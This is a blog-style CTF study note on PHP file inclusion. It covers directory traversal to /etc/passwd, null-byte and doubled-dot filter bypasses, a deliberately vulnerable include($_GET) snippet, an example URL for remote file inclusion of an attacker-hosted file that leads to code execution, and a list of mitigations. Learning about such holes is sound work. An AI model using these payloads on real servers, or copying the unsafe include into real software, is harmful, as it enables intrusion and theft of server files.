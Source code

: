 ```yaml
---
title: File Inclusion
author: Throupy
date: 2024-06-08 00:00:00 +0000
categories: [CTF]
tags: [CTF, Web]
---
```


Also known as directory traversal, file inclusion is a vulnerability which allows an attacker to read operating system resources, such as local files on the server. This vulnerability is exploited by manipulating and abusing the web application’s URL to locate and access files stored outside of the application’s root directory.

File inclusion occurs when un-sanitised user input is passed to a function such as PHP’s `file_get_contents`. However the function is not the only facilitator of the issue. Often poor input validation / filtering is the cause of the vulnerability.

[PHP: file_get_contents - Manual](https://www.php.net/manual/en/function.file-get-contents.php)

Using `../../../etc/passwd` is a common way of testing for file inclusion, for example:

1. There is a URL `https://site.com/get.php?file=<FILE_NAME>`
2. The site expects a file parameter like “file.txt” or something inconspicuous.
3. The attacker can leverage this and make the application go up to the root directory by using `../`, and then get whatever file they want from the server.

## Local File Inclusion - PHP
[Good Wordlist here](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
Once again picking on PHP, there are functions such as `include`, `include_once`, `require` and `require_once` which include files from the local filesystem. For example:
```php
<?PHP
	include($_GET["lang"]);
?>
```
This would get the “lang” parameter from the URL. Assume this parameter would be `english.php` for the English site, or `spanish.php` for the Spanish site. As previously discussed, an attacked could use a payload of `../../../etc/passwd` to include that file, and therefore retrieve the contents. This works because in the above code snippet, no directory is passed to the include function, and there is no validation of the user’s parameter input.

In the above examples, we have the source code to look at, but in a black box test, it’s important to know the signs of a possible file inclusion vulnerability. A sign in a PHP application would be:
```php
Warning: include(languages/LOL.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
The message discloses important information - we can tell that the application appends `.php` onto the parameter (`LOL.php`), and looks for the file inside the `languages` directory. We can also see that the application directory is `/var/www/html/THM-4/`

So to read `/etc/passwd`, we could try the parameter as `../../../../etc/passwd` (note: 4 x `../` because 4 levels to application directory). However this wouldn’t work, as the application appends the `.php` onto the end, and the file `/etc/passwd.php` doesn’t exist. To get around this, we can use null bytes (0x00 / %00), which basically tells the application to disregard any following text.

The payload would look like: `../../../../../etc/passwd%00`.

NOTE: THE NULL BYTE TRICK IS FIXED IN PHP V5.3.4 AND ABOVE

Be careful of encoding e.g. URL encoding when submitting forms, maybe better to just use the URL or send a request manually.

### Avoiding String Filtering
If the developer adds some string filtering to replace `../` string with an empty string, you can simply double the payload, so it would be:
`....//....//....//....//....//etc/passwd`. This is because the PHP filter only matches the replaces the first subset string `../` it finds and doesn’t do another passwd, as shown below.

![https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/30d3bf0341ba99485c5f683a416a056d.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/30d3bf0341ba99485c5f683a416a056d.png)

## Remote File Inclusion - PHP
RFI is a technique used to include remote files into a vulnerable application. Similar to LFI, RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into the `include` function. +

A requirement for RFI is that the `allow_url_fopen` option need to be `on`

The risk of RFI is higher than that of LFI, as RFI can allow an attacker gain remote code execution on the server. The RFI process is roughly as follows:

1. Attacker hosts malicious file (`site.com/bad_command.txt`)
2. Attacker sends a payload including the location of the bad file-
    1. e.g. `http://victim.com/get.php?file=http://site.com/bad_command.txt`
3. The victim server retrieves the malicious file which is being hosted by the attacker
4. `bad_command.txt` is injected into the `include` function and executed.
5. The victim server sends back the result of the execution.

## Mitigation
1. Keep system, services and web app frameworks up to date
2. Turn of PHP errors to avoid leaking the application path
3. Web application firewalls
4. Disable PHP features that cause file inclusion (`allow_url_fopen`, `allow_url_include`)
5. Carefully analyze web application and only allow needed protocols and PHP wrappers
6. Never trust user input - SANITIZE!
7. Implement whitelisting for file names and locations (and also black listing)
